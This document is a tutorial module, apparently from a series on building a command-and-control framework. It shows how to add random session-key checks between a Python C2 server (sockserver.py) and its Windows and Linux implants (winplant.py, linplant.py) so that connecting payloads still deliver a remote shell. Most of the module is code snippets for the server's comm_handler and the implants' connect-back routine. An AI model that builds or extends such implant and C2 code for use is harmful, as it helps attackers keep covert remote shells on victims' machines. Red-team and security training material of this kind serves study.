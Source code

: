 # Securing Your Payload Channels

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

This module covers the addition of a basic, randomized key generation that conducts a check when the payload connects to the C2 server.

## Randomized Key Generation and Implementation

At the beginning of your main function in the `sockserver.py` file, add the following, which will generate a random 12-character string value and print the output.

### sockserver.py
```
    ran_payload_key = (''.join(random.choices(string.ascii_lowercase, k=12)))
    print(f'[+] Key for this session is {ran_payload_key}')
```

We need a way to update our payloads with the `ran_payload_key` value. In order to do so, we will write the `ran_payload_key` values to the payload files. 
This can be added after the `with open` for the 'INPUT_PORT_HERE` value. For simplicity, I'm including the `with open` statement for one payload. 

```
    with open(file_name) as f:
        new_key = f.read().replace('INPUT_KEY_HERE', ran_payload_key)
    with open(file_name, 'w') as f:
        f.write(new_key)
        f.close()
```

Finally, we need a way to check for the key on the server-side. Scroll up to the `comm_handler()` function, and add the following after the `remote_target, remote_ip = sock.accept()`
line. What we are doing is handling some basic incoming traffic that we will generate in our payloads to receive a variable
called `key_check`, and then decode it as normal. 


```
            key_check = remote_target.recv(1024).decode()
            key_check = base64.b64decode(key_check).decode()
```

Additionally, we need to wrap everything after this in an if statement. This will compare the received payload key with the one set as a variable. If the key matches, then the `comm_handler()`
will continue, otherwise it closes the socket.
```
            if key_check == ran_payload_key:
            //-- previous code already here and indented properly--/
            else:
                remote_target.close()
```

### winplant.py, linplant.py

We only have to make a couple of modifications to our payloads, and the modifications are the exact same. After the `sock.connect((host_ip, host_port))` method, we add a new variable called
`key_check = "INPUT_KEY_HERE"`, call the outbound function by adding `outbound(key_check)`, and then adding a short sleep so that the server has time to process it.

```
        key_check = "INPUT_KEY_HERE"
        outbound(key_check)
        time.sleep(.5)
```

## Notes
If everything is configured correctly, you should still receive your shell as normal. If it is not working, you could add print statements with everything we changed, and try to troubleshoot
where the disconnect is in the traffic. You can also increase the `time.sleep()` update to see if it has a positive effect.
